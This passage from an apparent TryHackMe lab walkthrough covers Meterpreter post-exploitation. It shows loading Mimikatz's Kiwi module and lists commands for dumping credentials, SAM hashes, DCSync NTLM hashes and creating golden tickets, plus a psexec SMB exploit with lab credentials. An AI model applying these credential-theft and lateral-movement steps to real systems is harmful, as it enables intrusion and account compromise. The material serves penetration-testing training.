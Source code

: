 Return to Meterpreter:
```bash
CTRL+Z
```

---

## Task 5: Post-Exploitation Challenge

### 🧪 Objectives

- Gather OS and user data
- Escalate privileges
- Perform lateral movement
- Extract credentials

### 🧰 Load Python
```bash
load python
python_execute "print('TryHackMe Rocks!')"
```

### 🧠 Load Kiwi (Mimikatz)
```bash
load kiwi
```

#### 🔍 Kiwi Module Capabilities

| Command | Description |
|---------|-------------|
| `creds_all` | Dump all creds |
| `dcsync_ntlm` | Extract NTLM hash from DC |
| `lsa_dump_sam` | Dump SAM |
| `kerberos_ticket_list` | List Kerberos tickets |
| `wifi_list` | Show Wi-Fi creds |
| `password_change` | Change user password |
| `golden_ticket_create` | Create Kerberos Golden Ticket |

> Run `help` after loading a module to see new available commands.

---

## ⚡ Bonus: Simulated Initial Access

Use SMB exploit `exploit/windows/smb/psexec` with:

```bash
Username: ballen
Password: Password1
```
